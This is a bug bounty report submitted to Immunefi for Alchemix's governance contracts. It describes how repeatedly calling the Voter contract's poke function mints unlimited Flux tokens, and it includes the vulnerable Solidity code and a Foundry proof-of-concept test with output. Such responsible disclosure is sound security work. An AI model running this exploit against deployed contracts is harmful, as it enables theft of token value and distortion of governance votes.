 
# Unlimited Flux minting

Submitted on Tue May 14 2024 22:01:45 GMT-0400 (Atlantic Standard Time) by @Tapir49939 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31222

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Vulnerability Details
The attacker can mint unlimited amount of Flux tokens.

The `vote` and `reset` functions of the `Voter` contract could be called only once in an Epoch. Therefore, the amount of Flux tokens minted is limited.

```
function reset(uint256 _tokenId) public onlyNewEpoch(_tokenId) {
    if (msg.sender != admin) {
        require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
    }

    lastVoted[_tokenId] = block.timestamp;
    _reset(_tokenId);
    IVotingEscrow(veALCX).abstain(_tokenId);
    IFluxToken(FLUX).accrueFlux(_tokenId);  // Accrue Flux once in an Epoch, onlyNewEpoch modifier enforces this!
}
```

However, the `poke` function lacks such limitations and `onlyNewEpoch` modifier, and could be called any number of times. Poke calls `_vote` internal functions that accrues Flux.

```
function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
    _reset(_tokenId);

    uint256 _poolCnt = _poolVote.length;
    uint256 _totalVoteWeight = 0;
    uint256 _totalWeight = 0;

    for (uint256 i = 0; i < _poolCnt; i++) {
        _totalVoteWeight += _weights[i];
    }

    IFluxToken(FLUX).accrueFlux(_tokenId);  // Accrue Flux unlimited number of times through poke!!!
    ...
}
```

The attack scenario is simple:
1. Vote for a pool.
1. Keep calling `poke` in a loop, Flux will be minted.

## Impact Details
Consequences are dire:
1. Flux token has a market value.
1. Flux token could be used to boost the voting power.
        
## Proof of concept
## Proof of Concept
Run the test as: `forge test --mp src/test/Boost.t.sol  --fork-url 'https://...' -vv`

```
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract Boost is BaseTest {
    function setUp() public {
        setupContracts(block.timestamp);
    }

    function testFluxUnlimitedMint() public {
        address attacker = address(456);

        uint256 tokenId = createVeAlcx(attacker, 10e18, MAXTIME, false);

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        assertEq(flux.getUnclaimedFlux(tokenId), 0);

        hevm.prank(attacker);
        voter.vote(tokenId, pools, weights, 0);

        uint256 unclaimedBalance1 = flux.getUnclaimedFlux(tokenId);

        // Here the attacker mints Flux
        // increase/decrease loop bound to see the varing amount of Flux
        hevm.startPrank(attacker);
        for (uint i; i < 10000; i++) {
            voter.poke(tokenId);
        }
        hevm.stopPrank();

        uint256 unclaimedBalance2 = flux.getUnclaimedFlux(tokenId);

        assertGt(unclaimedBalance2, unclaimedBalance1);
        
        console.log("Flux balance = %s", unclaimedBalance2);

        hevm.startPrank(attacker);
        flux.claimFlux(tokenId, unclaimedBalance2);
    }
}
```

Output:

```
Flux balance = 98165526504584473482437      // For 10000 iterations
Flux balance = 196321237438075597852437     // For 20000 iterations
...
```